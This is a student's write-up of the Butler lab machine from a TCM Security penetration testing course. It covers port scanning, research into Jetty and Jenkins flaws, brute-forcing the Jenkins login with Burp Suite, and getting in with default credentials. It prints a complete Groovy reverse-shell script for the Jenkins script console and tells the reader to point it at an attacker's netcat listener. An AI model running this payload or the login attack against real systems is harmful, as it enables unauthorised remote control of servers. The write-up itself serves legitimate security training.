




# Box4 - Butler VM Penetration Testing Walkthrough Training (TCM Sec)

1. Network Scanning
2. Scan network to get target's IP Address
\
Scanning target's open ports

Result:
- 135(msrpc) -> Microsoft Windows RPC
- 139(netbios-ssn) -> Microsoft Windows netbios-ssn
- 445(microsoft-ds)
- 5040(unknown)
- 7680(pando-pub)
- 8080(http) -> Hetty 9.4.41.v20210516
- 4966<4-9>(msrpc) -> Microsoft Windows RPC

Information acquired:
- Open SMB port (139/445),
- HTTP port (8080),
- Running Microsoft Windows with hidden version (445)

Unusual port:
- Port [7680](https://www.speedguide.net/port.php?port=7680#:~:text=%20%20%20%20Port%20%28s%29%20%20,Public%20Distribution%2C%20registe%20...%20%20%20IANA%20)(pando-pub) -> Seems to be "Pando Media Public Distribution, registered 2008-02-27"
- When stumbling upon an unusual port, try to `netcat` or `telnet` to that port or try open directly in browser.

2. Checking the website on port 8080

Turns out to be a login page.\
Try to look for vulnerabilities based on the http version (Jetty 9.4.41.v20210516)
- [Snyk](https://security.snyk.io/package/maven/org.eclipse.jetty:jetty-server/9.4.41.v20210516) -> Information Exposure leads to cookies exfiltration and policy based on cookies bypass. Denial of Service
- [Invalid URI parsing](https://github.com/eclipse/jetty.project/security/advisories/GHSA-cj7v-27pg-wf7q)

3. Trying Directory Busting to the website using ffuf

A lot of directories but everything are forbidden status.\
_Self note: Then I think no need to directory bust a login website?_

4. From video walkthrough in TCM Security, directly look for exploit vulnerabilities for Jenkins. I thought Jenkins is a custom name of the website and doesn't really matter, that's why I only look for vulnerabilities of the service version (Jetty). List of Jenkins vulnerabilities:
- [Several reported vulnerabilities based on versions](https://github.com/gquere/pwn_jenkins)
- [Jenkins RCE Vuln](https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html)
- Searchsploit Result

Note: However, we still don't know the version used on the website!

5. Let's just try bruteforcing the login page with burpsuite.
- When running `Intruder` in Burp Suite. Several things to look for: change in **status** and **length**
- When length is 318 (the most recurring length):

- When length is 314 (appears one time):

- When length is 408 (appear several time with one digit difference):

- After length 314, the rest have length of 400 above:


6. Attempt to login with jenkins:jenkins

- Navigate through all the pages to see possible places to run scripts

Found a place that accepts Groovy scripts to be executed on the server.
- Search for groovy script for [reverse shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) (Actually, we can use any other methods too such as metasploit etc.)
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Change the host to the attacker or wherever you want to run the netcat
- Open a listener on the port written on the script, which is 8044 (it can be changed to whatever you want)
_Self note: If I want to use metasploit for this, can I just run any tools inside metasploit to attack the target?_


_Learning point: There is still a lot of things I don't know about._
